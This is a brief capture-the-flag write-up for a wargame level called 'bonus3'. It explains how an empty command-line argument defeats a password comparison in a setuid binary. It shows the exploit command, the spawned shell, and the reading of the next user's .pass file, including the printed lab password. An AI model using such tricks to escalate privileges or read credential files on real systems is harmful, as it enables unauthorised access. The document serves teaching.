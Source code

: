 # bonus3

This level is extremely simple.  

By inspecting the code we can see two interesting lines:

```c
pass[atoi(argv[1])] = 0;
[...]
if (strcmp(pass, argv[1]) == 0)
[...]
```

We know that `atoi("")` is `0`. By passing nothing to `argv[1]`, `pass`'s first byte will also be equal to `\0`.  
The comparison will therefore be true and the program will execute the shell.

```sh
$> ./bonus3 ""
$ whoami
end
$ cat /home/user/end/.pass
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
$ cat /home/user/end/end
Congratulations graduate!
```
